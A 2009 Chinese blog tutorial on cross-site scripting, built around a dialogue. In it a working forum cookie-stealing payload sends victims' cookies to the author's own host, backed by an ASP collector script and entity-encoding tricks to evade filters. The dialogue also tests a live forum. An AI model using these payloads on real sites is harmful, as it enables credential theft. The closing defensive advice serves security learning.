

# XSS跨站攻击的有关知识 
> 原文发表于 2009-06-01, 地址: http://www.cnblogs.com/chenxizhang/archive/2009/06/01/1493547.html 

<http://www4.it168.com/jtzt/shenlan/safe/xss/>

 XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS属于被动式的攻击，因为其被动且不好利用，所以许多人常呼略其危害性。而本文主要讲的是利用XSS得到目标服务器的shell。技术虽然是老技术，但是其思路希望对大家有帮助。

  

 跨站攻击有多种方式，由HTML语言允许使用脚本进行简单交互，入侵者便通过技术手段在某个页面里插入一个恶意HTML代码——例如记录论坛保存的用户信息（Cookie），由于Cookie保存了完整的用户名和密码资料，用户就会遭受安全损失。当然，攻击者有时也会在网页中加入一些以.JS或.VBS为后尾名的代码时，在我们浏览时，同样我们也会被攻击到。

  

 XSS攻击分成两类，一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句，如:dvbbs的showerror.asp存在的跨站漏洞。另一类则是来来自外部的攻击，主要指的自己构造XSS跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。

  

 了解XSS的触发条件就先得从HTML（超文本标记语言）开始，我们浏览的网页全部都是基于超文本标记语言创建的，如显示一个超链接：<A HREF="[http://safe.it168.com">IT168](http://safe.it168.com'>it168/)[安全](http://safe.it168.com/)频道</A>。而XSS的原理也就是往HTML中注入脚本，HTML指定了脚本标记.在没有过滤字符的情况下，只需要保持完整无错的脚本标记即可触发XSS，假如我们在某个资料表单提交内容,表单提交内容就是某个标记属性所赋的值，我们可以构造如下值来闭和标记来构造完整无错的脚本标记>>>

  

 [一、XSS的触发条件](http://www.ixpub.net/viewthread.php?tid=615957&highlight=%CE%DE%CF%DF%BE%D6%D3%F2%CD%F8)  
　了解XSS的触发条件就先得从HTML（超文本标记语言）开始，我们浏览的网页全部都是基于超文本标记语言创建的，如显示一个超链接：<A HREF="[http://safe.it168.com">IT168](http://safe.it168.com'>it168/)[安全](http://safe.it168.com/)频道</A>。而XSS的原理也就是往HTML中注入脚本，HTML指定了脚本标记.在没有过滤字符的情况下，只需要保持完整无错的脚本标记即可触发XSS，假如我们在某个资料表单提交内容,表单提交内容就是某个标记属性所赋的值，我们可以构造如下值来闭和标记来构造完整无错的脚本标记>>>[**全文阅读**](http://publish.it168.com/2007/0704/20070704004201.shtml)

 **二、XSS转码引发的过滤问题**玩过SQL注入的都知道，注入的语句可以转成16进制再赋给一个变量运行，XSS的转码和这个还真有异曲同工之妙，原因是我们的[IE](http://download.it168.com/01/0118/10676/10676_3.shtml)浏览器默认采用的是UNICODE编码，HTML编码可以用&#ASCII方式来写，这种XSS转码支持10进制和16进制，SQL注入转码是将16进制字符串赋给一个变量，而XSS转码则是针对属性所赋的值，下面我就拿示例：…>>>[**全文阅读**](http://publish.it168.com/2007/0704/20070704004202.shtml)

   
XSS攻击数据流程：

   

 

  

 下面有一个网络小白与小黑的对话。可以比较简单地理解有关XSS及其攻击方法

  

 菜鸟：前几天，中国浪客联盟的站长欲望之翼，利用跨站攻击在小榕的论坛上获取了很多人的密码，听说就是用你写的一个asp脚本？ Lcx：哈，我也没想到我写的这个asp脚本还有这么大的作用，更没想到小榕论坛还有这个漏洞，早知道的话我也去小榕论坛测试我的asp脚本了，出出风头。这个asp脚本程序很简单，如果你懂得跨站攻击的原理，懂一点点asp知识的话，你就能写出这个asp程序。 菜鸟：什么是跨站攻击？能否简单说一下？ Lcx：按我个人了解的讲一下吧。在国内，我看到最早的跨站攻击资料好像是2000年当时十五岁的初中生小铭在网上贴了一篇文章<<bbs3000存在的安全隐患>>，提到可以在ubb（论坛里常用的一种代码，可以在论坛贴子里起到简单的html效果）嵌入图像代码中写入file://con/con，引起windows98用户访问含有此代码的贴子时造成死机。到2002年，红色警戒小组将服务器网页程序没有过滤或转换用户提交的html代码而形成的漏洞归纳为跨站漏洞，并在此基础上将其内涵延伸从而正式系统定义了跨站攻击的漏洞起源、漏洞成因、漏洞危害及利用方式。小铭提到的bbs3000存在的安全隐患，就是跨站攻击的一个方法了。此时，红色警戒小组已经解散，但他们的旧版网站还在，访问url是[http://c4st.51.net](http://c4st.51.net/)。如果你有兴趣系统学一下跨站攻击，可以登陆他们的网站，里边有丰富的跨站资料。 菜鸟：我常上论坛，我懂得ubb代码，为什么在[img][/img]里写入<file://con/con就会引起造访者死机呢>？ Lcx：在一些论坛里ubb代码的[img]部份转换为html时，[img]http://ip/x.jpg[/img]会转换成。学过html的都知道，里可以直接写入javascript语句。如果你写入[img]file://con/con[/img]，转换成html时变成，由于win98的自身bug，这条语句就会引起win98用户蓝屏。 菜鸟：我好像明白了，你可以在[img][/img]之间写入恶意代码，这就是跨站攻击吧？ Lcx：只能说是跨站攻击里的一个比较重要的入侵方法。 菜鸟：能否实例给我演示一下跨站攻击的这个比较重要的入侵方法？我想弄明白欲望之翼是如何得到别人密码的。我比较菜，你最好图文并貌地给我讲解一下呀。 Lcx：好吧，我在网上四处找了找，终于找到了一个有漏洞的bbs3000论坛，这个论坛的版本比较低，人烟稀少，url是<http://www.0123x.com/cgi-bin/bbs3000/list.cgi>。我就拿它开刀。我注册了一个id:www，密码是wwwwww，然后发了一个贴子，内容是[img]javascript:alert(document.cookie)[/img]，然后访问此贴子，会发生什么呢？看图：： 图中弹出一个对话框，显示的是用户名和密码。这个对话框，也就是www用户在此论坛里的cookie。Bbs3000论坛用户的密码是明文保存在cookie里的。现在无论谁看到这个贴子，都会弹出自己的cookie。现在，我将此贴子进一步修改一下，看图： 我写的代码是[img]javascript:window.open(‘http://www.netsill.net/lcx/info.asp?msg=’+document.cookie)[/img] 其中<http://www.netsill.net/lcx/是我网站空间的一个目录>，info.asp是我写的一个asp脚本用于收集msg后边跟的参数，而参数我们指定的是document.cookie，也就是访问此贴用户的cookie。 Info.asp的代码是： <% testfile=Server.MapPath("lcx.txt") msg=Request("msg") set fs=server.CreateObject("scripting.filesystemobject") set thisfile=fs.OpenTextFile(testfile,8,True,0) thisfile.WriteLine(""&msg& "") thisfile.close set fs = nothing %> 这样所有访问者的cookie都会收集在lcx.txt这个文件里。此时用户再次访问这个贴子时会发生什么？看图吧： 弹出一个页面，这个info.asp程序起作用了。再看看我的网站空间里lcx.txt收集到cookie没有。 我们以www的id访问此贴，果然在lcx.txt里收集到了www的用户名和密码。如果论坛管理员来看此贴呢？我想后果你清楚的。 菜鸟：方法我是看懂了。不过，你的方法太明显了呀，谁也会发现弹出了一个收集cookie的窗口。 Lcx：我是为了你看明白图像才这样做的。我们完全可以将info.asp代码改造一下，使这个弹出窗口不可见。像可以在info.asp代码最下边加上这几行：  这样弹出的收集cookie的info.asp窗口就会自动转到sohu.com。当然，如何隐藏你的意图，那就看你写这个info.asp的水平了，方法有很多的。 这个info.asp和有一个同样作用的info.php在我网站里都有下载，地址：http://smallhome.51.net/lcx/wdb/upload/forum1\_f\_632\_1051272537.rar 菜鸟：我学会了，去测试了很多论坛，为什么有的成功，有的不成功？怎样才能使成功率高一点？ Lcx：这就涉及到跨站技巧的问题。像大部份论坛，都过滤了javascript这个字符。有个小技巧是可以利用的，可以在论坛发的贴里将javascript写成ascii码。像j可以写成”&#x6a;” 再如a可以写成”&#x61;”，你可以找一个ascii码表对照修改一下，这样成功率能高一点。还有，你要学会分析一下对方的ubb代码。像动网5.0以下论坛，你在[img]里写入和bbs3000一样的代码就不会成功，因为动网5.0以下，ubb代码http://这个地方当成图片地址了，结你提交的代码被分成了两段javascript:window.open('和http://www.netsill.net/lcx/info.asp?msg='+document.cookie);，以至于我们提交的代码丧失了功能。难道就不能攻击了吗？当然不是，我们可以变换种方式提交，代码如下：  
[img]javascript:window.open('&#x68;tt&#x70;://www.netsill.net/lcx/info.asp?msg='+document.cookie);[/img] 看到区别了吧，这段代码把http中的h和p转换成了ascii码html格式&#x68;和&#x70;，提交后，轮坛并没有找到http，所以我们提交的代码就不会分家了,达到了攻击的目的。总之，还是要学会多多分析多动脑筋。另外，也不是所有论坛的cookie都存有用户名和密码的。 菜鸟：跨站攻击是不是就是在[img]里写代码呀？ Lcx：一开始就和你说不是了呀。它的危害有很多，像伪造页面信息、拒绝服务攻击打开无穷窗口、与其它漏洞结合，修改系统设置，查看系统文件，执行系统命令等。这些入侵方法，都等待你用聪明才智来学习和进一步发现呢。当然，我侧重在这里讲的是如何利用[img]作文章，这也是跨站攻击一个有趣而且很重要的攻击方法。至于如何利用其它方法入侵，你上[http://cs4t.51.net](http://cs4t.51.net/)去学习了解一下吧，有许多跨站文章讲得都很清楚，限于篇幅，我就不讲述了。 菜鸟：说了这么多，我也很害怕被跨站攻击，如何预防它呢？ **Lcx：如果你开论坛或办网站的话，最重要的是要在表单输入处过滤掉一些敏感字符。像javascript/<script>/’/;/&/#了等等，当然前提是你的网页程序还要正常运行。作为个人用户，老生常谈了，不要轻易打开一些不明url，要将自己的信箱、论坛、QQ等资料的密码设的都不一样，如果一旦资料或密码被盗，避免引连锁反应，所有资料和密码都被别人获得。** 菜鸟：好像我对跨站攻击有了一点兴致，学会了一种攻击方法。 Lcx：hehe,我也就会这么多。J 

